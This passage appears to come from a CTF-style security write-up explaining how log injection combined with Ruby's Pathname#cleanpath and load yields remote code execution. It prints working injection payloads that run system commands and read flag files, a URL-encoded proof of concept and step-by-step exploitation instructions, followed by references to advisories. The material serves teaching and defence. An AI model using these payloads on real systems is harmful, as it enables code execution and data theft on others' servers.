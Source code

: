 `Pathname#cleanpath` ignores schemes and collapses traversal components, so the following works:
```ruby
require 'pathname'

p = Pathname.new("\n][0]=1;system(\"touch /tmp/pwned\")#://../../../../logs/error.log")
puts p.cleanpath   # => ../logs/error.log
```
- The `#` before `://` ensures Ruby ignores the tail when the log is executed, while `cleanpath` still reduces the suffix to `../logs/error.log`.
- The leading newline breaks out of the INFO line; `]` closes the dangling bracket; `][0]=1` satisfies the parser.

### End-to-end exploitation
1. Send the following as the backup script name (URL-encode the first newline as `%0A` if needed):
   ```
   \n][0]=1;system("id > /tmp/pwned")#://../../../../logs/error.log
   ```
2. The app logs your raw string into `logs/error.log`.
3. The app computes `cleanpath` which resolves to `../logs/error.log` and calls `load` on it.
4. Ruby executes the code you injected in the log.

To exfiltrate a file in a CTF-like environment:
```
\n][0]=1;f=Dir['/tmp/flag*.txt'][0];c=File.read(f);puts c#://../../../../logs/error.log
```
URL-encoded PoC (first char is a newline):
```
%0A%5D%5B0%5D%3D1%3Bf%3DDir%5B%27%2Ftmp%2Fflag%2A.txt%27%5D%5B0%5D%3Bc%3DFile.read(f)%3Bputs%20c%23%3A%2F%2F..%2F..%2F..%2F..%2Flogs%2Ferror.log
```

## References

- Rails Security Announcement: CVE-2025-24293 Active Storage unsafe transformation methods (fixed in 7.1.5.2 / 7.2.2.2 / 8.0.2.1). https://discuss.rubyonrails.org/t/cve-2025-24293-active-storage-allowed-transformation-methods-potentially-unsafe/89670
- GitHub Advisory: Rack::Static Local File Inclusion (CVE-2025-27610). https://github.com/advisories/GHSA-7wqh-767x-r66v
- [Hardware Monitor Dojo-CTF #44: Log Injection to Ruby RCE (YesWeHack Dojo)](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44)
- [Ruby Pathname.cleanpath docs](https://docs.ruby-lang.org/en/3.4/Pathname.html#method-i-cleanpath)
- [Ruby Logger](https://ruby-doc.org/stdlib-2.5.1/libdoc/logger/rdoc/Logger.html)
- [How Ruby load works](https://blog.appsignal.com/2023/04/19/how-to-load-code-in-ruby.html)


